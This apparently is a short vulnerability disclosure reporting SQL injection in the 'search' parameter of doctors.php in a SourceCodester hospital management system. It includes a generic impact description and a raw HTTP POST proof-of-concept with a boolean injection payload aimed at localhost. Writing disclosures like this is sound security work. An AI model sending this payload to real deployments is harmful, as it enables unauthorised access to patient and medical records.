



**BUG_Author:**

Rone

**Vendor:**

[SourceCodester](https://vuldb.com/?vendor.sourcecodester)

**Software:**

[Free Hospital Management System for Small Practices | SourceCodester](https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html)

**Vulnerability File:**

/vm/admin/doctors.php

**Description:**

Attackers can use SQL injection to bypass the authentication and authorization mechanisms of web applications and retrieve the content of the entire database. SQLi can also be used to add, modify, and delete records in a database, thereby affecting data integrity. In appropriate cases, attackers can also use SQLi to execute operating system commands, which can then be used to launch further attacks.

```
POST /VaidyaMitra/vm/admin/doctors.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://127.0.0.1/VaidyaMitra/vm/admin/index.php
Cookie: PHPSESSID=n0c7sjh2imuq8hk5htgeb3e795
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 55
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: 127.0.0.1
Connection: Keep-alive

search=-1' OR 3*2*1=6 and 1=1 --+
```








